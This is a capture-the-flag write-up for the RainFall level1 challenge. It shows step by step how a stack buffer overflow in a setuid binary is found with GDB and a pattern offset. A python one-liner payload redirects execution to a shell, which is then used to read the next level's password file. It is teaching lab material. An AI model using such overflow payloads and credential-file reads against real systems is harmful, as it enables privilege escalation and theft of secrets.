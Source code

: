 # Level1 Exploit

## Steps

### 1. Initial Analysis

List the files in the directory:

```bash
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

### 2. Program Execution

Observe the program behavior with different inputs:

```bash
level1@RainFall:~$ ./level1
olé
level1@RainFall:~$ ./level1 test
423
```

### 3. Disassembling `main` and `run` Functions

Use GDB to disassemble the `main` and `run` functions:

```bash
level1@RainFall:~$ gdb level1
(gdb) disassemble main
(gdb) disassemble run
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool for better understanding.

Identify the address of the run function: 0x08048444.

### 4. Finding the Offset

Generate a unique pattern to identify the offset using the [Wiremask pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/):

Run the program with GDB:

```bash
(gdb) r
Starting program: /home/user/level1/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) 

```

Use the [Wiremask offset calculator](https://wiremask.eu/tools/buffer-overflow-pattern-offset/) to find the offset for `0x63413563`. It correspond to an offset of 76.

### 5. Creating the Exploit

Create an exploit file with the correct padding and the address of `run`:

```bash
level1@RainFall:~$ python -c 'print("A" * 76 + "\x44\x84\x04\x08")' > /tmp/exploit
```

### 6. Executing the Exploit

Use `cat -` to keep stdin open:

```bash
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

### Explanation

1. **Disassembling Functions**: Use GDB to disassemble the `main` and `run` functions to understand the program flow.
2. **Pattern Generator**: Used to generate a unique and identifiable pattern to find the exact offset where the overflow occurs.
3. **Offset**: Identified as 76, meaning 76 characters fill the buffer up to the EIP.
4. **Payload**: Consists of 76 'A's followed by the address of `run` in little-endian format (`\x44\x84\x04\x08`).
5. **Cat - |**: Keeps stdin open, allowing the launched shell to remain interactive.

## Conclusion

By following these steps, you have successfully exploited a buffer overflow vulnerability to gain shell access on `level1`. This technique uses pattern generation tools and basic knowledge of stack operations and instruction pointers.